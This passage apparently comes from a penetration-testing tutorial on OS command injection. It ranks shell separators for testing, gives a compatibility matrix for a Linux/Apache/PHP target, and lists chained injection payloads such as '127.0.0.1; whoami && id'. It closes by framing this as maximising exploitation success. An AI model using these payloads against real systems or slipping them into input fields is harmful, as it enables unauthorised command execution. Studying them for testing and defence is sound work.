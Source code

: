 ### Testing Priorities

**1. Start with Universal Operators:**
- `;` (semicolon) - Most compatible
- `\n` (newline) - Platform independent

**2. Test Conditional Operators:**
- `&&` (AND) - Success-dependent
- `||` (OR) - Failure-dependent

**3. Evaluate Specialized Operators:**
- `|` (pipe) - Clean output
- `&` (background) - Parallel execution

**4. Document Working Operators:**
```bash
# Maintain operator compatibility matrix
Environment: Linux + Apache + PHP
✓ ; (semicolon)     - Works, both outputs
✓ && (AND)          - Works, conditional  
✓ || (OR)           - Works, error-based
✓ | (pipe)          - Works, clean output
✓ & (background)    - Works, mixed order
✓ \n (newline)      - Works, separate lines
```

---

## Advanced Operator Combinations

### Multi-Operator Chains

**Complex Payloads:**
```bash
# Conditional chaining
127.0.0.1 && whoami || echo "failed"

# Background with pipe
127.0.0.1 & whoami | grep data

# Multiple separators
127.0.0.1; whoami && id
```

**Error Handling:**
```bash
# Graceful degradation
valid_command && injected_command || fallback_command
```

**Output Filtering:**
```bash
# Clean result extraction
original_command | injected_command 2>/dev/null
```

This comprehensive understanding of injection operators enables precise payload crafting for different scenarios and environmental constraints, maximizing exploitation success while adapting to various defensive measures. 